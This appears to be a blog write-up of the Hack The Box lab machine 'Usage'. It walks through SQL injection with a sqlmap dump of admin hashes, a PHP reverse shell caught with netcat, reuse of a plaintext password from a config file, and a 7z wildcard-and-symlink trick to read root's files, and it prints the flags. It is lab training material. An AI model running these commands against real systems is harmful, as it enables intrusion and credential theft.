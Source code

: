 ```yaml
---
layout: post
title: "Usage"
description: "Usage is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
![Pasted image 20240715112111.png](/images/Pasted image 20240715112111.png){: .normal }

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.18 usage.htb
```


## Enumerate HTTP (Port 80)
Landing page.
![Pasted image 20240715112105.png](/images/Pasted image 20240715112105.png){: .normal }

Found admin panel, add to hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.18 usage.htb admin.usage.htb
```

We can intercept the forgot password request and test it for sql injection using sqlmap. Using the following sqlmap command we are able to exfiltrate the admin hash.
```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -r req.req --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![Pasted image 20240715112059.png](/images/Pasted image 20240715112059.png){: .normal }

When we crack the hash we find the password of `whatever1`, now login to the admin panel.
![Pasted image 20240715112052.png](/images/Pasted image 20240715112052.png){: .normal }

We find the following [CVE](https://flyd.uk/post/cve-2023-24249/) for laravel 1.8.18. Uploading the php reverse shell with a .jpg extension and adding the .php extension gives us a reverse shell connection.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.18] 44592
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:59:39 up  5:20,  2 users,  load average: 2.58, 2.03, 1.93
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
```

User flag: `20aaddc99bacbd411493970f734987a2`
```bash
dash@usage:~$ cat user.txt 
20aaddc99bacbd411493970f734987a2
```


## Lateral movement
In the .monitrc file located in the home directory of the dash user we find a password.
```bash
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd
```

Use the password to switch to the xander user.
```bash
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
```


## Privilege Escalation
Sudo -l output.
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Running strings against the binary reveals that 7z is being ran with a wildcard.
```bash
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

We realize that 7z is being used to compress all the files located in the /var/www/html directory, since a wildcard is being used at the end, we can abuse it by using a symbolic link.
```bash
xander@usage:/var/www/html$ touch @root.txt
xander@usage:/var/www/html$ ln -s -r /root/root.txt root.txt
ln: failed to create symbolic link 'root.txt': File exists
```

Root flag: `a259d3650bd9a38a62842403237ae397`
```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54962587

Scanning the drive:
          
WARNING: No more files
a259d3650bd9a38a62842403237ae397
```

## PWNED!!!
![Pasted image 20240715112022.png](/images/Pasted image 20240715112022.png){: .normal }